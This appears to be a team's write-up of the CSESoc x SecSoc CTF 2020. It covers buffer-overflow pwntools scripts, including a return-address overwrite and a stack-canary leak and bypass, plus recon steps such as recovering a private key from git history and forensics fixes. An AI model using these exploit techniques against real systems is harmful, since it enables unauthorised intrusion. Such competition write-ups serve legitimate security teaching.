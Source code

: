 # CSESoc x SecSoc CTF 2020

Despite entering as a team of 4, the CTF was just completed by myself and my good friend [featherbear](!https://featherbear.cc/)! We managed to claim first place, being ahead of second place by 20 points.

## Binary
These challenges were done by examining the disassembly using Binary Ninja.

### simple
_Key observations:_
* `gets` is used - possible overflow vulnerability
* to take the winning branch, the value at [ebp-0xc] must equal 0x37333331
* buffer starts being written at [ebp-0x20]

_Overview:_
* pad the payload to allow 0x37333331 to be written at [ebp-0xc]

_Code:_
``` python
from pwn import *

p = remote('pwn.ctf.unswsecurity.com', 7004)

p.interactive()
```

### exit 1337
_Key observations:_
* 1337%256 = 57 -> `exit` must be given 57 as its argument
* `gets` is used in `vuln` - possible overflow vulnerability
* buffer starts being written at [ebp-0x26]

_Overview:_
* pad the payload to until the return address location at [ebp+4]
* overwrite the return address with the address of where `exit` is called
* append the required value afterwards to set is as the argument

_Code:_
```python
from pwn import *

p = remote('pwn.ctf.unswsecurity.com', 7006)

payload = b''
# pad until the return address
payload += b'A' * (0x26+0x4)
# overwrite return address with address when
#   exit is called
payload += p32(0x8049219)
# set the required argument value
payload += p32(57)

p.sendline(payload)

p.interactive()
```

### slightly simple
_Key observations:_
* `gets` is used in `lol` - possible overflow vulnerability
* buffer starts being written at [ebp-0x20]
* canary check occurs with a value at [ebp-0xc]
* canary value is printed out
* `win` function is provided

_Overview:_
* obtain the given canary value
* pad the payload to until the canary location at [ebp-0xc]
* rewrite the canary
* pad the rest of the payload
* overwrite the return address with the win function

_Code:_
```python
from pwn import *

p = remote('pwn.ctf.unswsecurity.com', 7005)

# obtain the canary value
p.recvuntil('hi\n')
canary = p.recvuntil('\n', drop=True)
canary = b'0x' + canary
canary = int(canary, 16)

payload = b''
# pad until the canary
payload += b'A' * (0x20-0xC)
# overwrite the canary
payload += p32(canary)
# pad till the return address
payload += b'A' * 0xC
# overwrite return address
payload += p32(0x80491c6)

p.sendline(payload)

p.interactive()
```

## Recon
### dorf0 - sneaky shouts
_Key observations:_
* location was at 33-39 hunter st
* clue was frankie the fox

_Overview:_
* frankie's pizza is on hunter st

### dorf1 - you're fired
_Key observations:_
* required: twitter
*  team page has a commented section about a guy named Robert Northcote
* robots.txt file had a path...

_Overview:_
* path from robots.txt lead to rob's 'personal' page
* link to his twitter was there

### dorf2 - git lost
_Key observations:_
* required: github
* no other links on the website
* names of staff are on the team page

_Overview:_
* search on github for the staff
* charlie warner - CEO of Dorf can be found, alongside his username

### dorf3 - ssshhhh!! this is a library
_Key observations:_
* CEO has starred a repo from the fired employee
* repo contains dorf site files

_Overview:_
* check previous commits
* config file was once pushed and then removed - `bf99018`
* private key was also once pushed and then removed - `5e702ce`
* ssh into server to obtain the flag

## Forensics
### broken code
An [online hex editor](!https://hexed.it/) was used to modify the given png file.

_Key observations:_
* first four bytes of the header are overwritten

_Overview:_
* change the first four bytes to `89 50 4E 47` which are the first bytes of the PNG header signature
* save the file and it should now be able to be opened

## not a challenge
_Key observations:_
* what?

_Overview:_
* `file` was used to determine the correct file type
* a.notazip was opened as a zip
* a.png was opened as a pdf

### steganosaurus
_Key observations:_
* hint lead me to this [online steganography decoder](!http://stylesuxx.github.io/steganography/)
* challenge description seemed to be a pangram

_Overview:_
* used the decoder to find the string required
* pangram was used to solve the substitution cypher